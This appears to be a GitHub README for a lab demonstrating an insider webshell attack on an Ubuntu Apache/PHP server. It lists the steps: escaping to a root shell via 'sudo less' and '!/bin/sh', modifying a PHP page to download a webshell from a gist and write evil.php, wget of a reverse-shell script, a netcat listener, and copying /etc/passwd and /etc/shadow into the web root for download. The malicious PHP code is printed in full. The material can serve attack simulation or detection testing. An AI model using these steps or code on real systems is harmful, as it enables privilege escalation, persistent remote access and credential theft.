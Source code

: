 Insider Webshell Attack
=======================

![Attack Design](https://github.com/scottbrumley/images/blob/main/insider-webshell-attack.png)

The Attack
------------------
>1. Login with magnifier on ubuntu-web-pr
>2. Check Sudo Permissions - sudo -l
>3. Create file - touch lesser.txt
>4. Use less - sudo less lesser.txt
>5. Less Exploit - !/bin/sh
>6. Modify getevil.php with Malicious Code
>7. Web Browser to http://ubuntu-web-pr/getevil.php
>8. Web Browser to http://ubuntu-web-pr/evil.php
>9. From evil.php on ubuntu-web-pr Get Reverse Shell - See Reverse Shell Wget
>10. On Remote Attack Console Box Open NetCat Listeners 
>	- Terminal #1 - nc -nvlp 443
>11. Web Browser Tab #1 to http://ubuntu-web-pr/reverse-shell.php?ip=consoleIP&port=443
>12. On ubuntu-web-pr - whoami
>13. On ubuntu-web-pr - sudo -i
>14. On ubuntu-web-pr - whoami
>15. On ubuntu-web-pr - cp /etc/passwd /var/www/html
>16. On ubuntu-web-pr - cp /etc/shadow /var/www/html
>17. On ubuntu-web-pr - chown apache:apache /var/www/html/shadow
>18. On ubuntu-web-pr - chown apache:apache /var/www/html/passwd
>19. Web Browser to http://ubuntu-web-pr/passwd
>20. Web Browser to http://ubuntu-web-pr/shadow
>21. On ubuntu-web-pr - rm /var/www/html/passwd
>22. On ubuntu-web-pr - rm /var/www/html/shadow


Environment
-----------
**Two Web Servers:** Ubuntu 20.04.1
>VSphere:
>	CPU: 1 
>	Memory: 4 GB
>	Disk: 20 GB
>AWS:
>  t2.micro
>Default Packages Needed: 
>	- cron
>	- rsync
>	- sudo
>	- less
>	Install Apache with PHP on Both Servers:
>	- sudo apt install php libapache2-mod-php
  
**Attacker Remote Console**
>VSphere:
>	CPU: 1 
>	Memory: 4 GB
>	Disk: 20 GB
>AWS:
>  t2.micro
  
**Attacker Remote**
>Any machine with a webbrowser
  
Code
----
**Good getevil.php**
```<html>
<head>
<title>I'm a Good Web Page</title>
</head>
<body>
I'm a Good Web Page
</body>
</html>
```  
  
** Malicious getevil.php*
```
<html> 
<head> 
<title>I'm a Bad Web Page</title> 
</head> 
<body> 
I'm a Bad Web Page 

<?php // Normal code  echo "Whatsupppp";   
// start of evil code 
$code = file_get_contents("https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/9377612eeea89aed2b226a870e76ac12965d6694/easy-simple-php-webshell.php"); 
$myfile = fopen("evil.php", "w+") or die("Unable to open file!");   
fwrite($myfile, $code);  
fclose($myfile);  
// end of evil code  ?>
</body> 
</html>  
```  

**Download Reverse Shell**
```
wget https://gist.githubusercontent.com/scottbrumley/cd76c1e61e168a5a4e8c7251fa8e8c82/raw/224af483fd976654c29f1eed9242a233437a6dad/reverse-shell.php
```  
  
